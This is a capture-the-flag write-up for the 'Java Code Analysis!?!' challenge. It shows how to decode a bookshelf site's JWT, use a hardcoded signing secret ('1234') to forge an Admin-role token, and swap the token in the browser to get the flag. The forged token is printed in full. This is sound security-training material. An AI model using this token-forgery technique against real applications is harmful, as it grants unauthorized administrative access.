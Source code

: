 # Java Code Analysis!?!

## Description
This write up will show how to solve the CTF for "Java Code Analysis!?!"

## Solution
The web page creates an auth-token, which looks like an JWT-token.</br>
Entering this in `jwt.io` gives the following result:</br>
```
{
  "role": "free",
  "iss": "bookshelf",
  "exp": 1701903525,
  "iat": 1701298725,
  "userId": 1,
  "email": "user"
}
```

In the code it states that the secret key is `1234`, give that also in JWT.</br>

Changes the above data to:</br>
```
{
  "role": "Admin",
  "iss": "bookshelf",
  "exp": 1701903525,
  "iat": 1701298725,
  "userId": 2,
  "email": "admin"
}
```

This generates the following auth-token:</br>
`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE3MDE5MDM1MjUsImlhdCI6MTcwMTI5ODcyNSwidXNlcklkIjoyLCJlbWFpbCI6ImFkbWluIn0.n8iE7xu0vC8CZgiksSWFBskcMQCAs6zq2kFGDzO70rU`
And the following token-payload:</br>
```
{
  "role": "Admin",
  "iss": "bookshelf",
  "exp": 1701903525,
  "iat": 1701298725,
  "userId": 2,
  "email": "admin"
}
```

In the browser, replace the auth-token and the token-payload with the above data, refresh the page and it will show the flag.
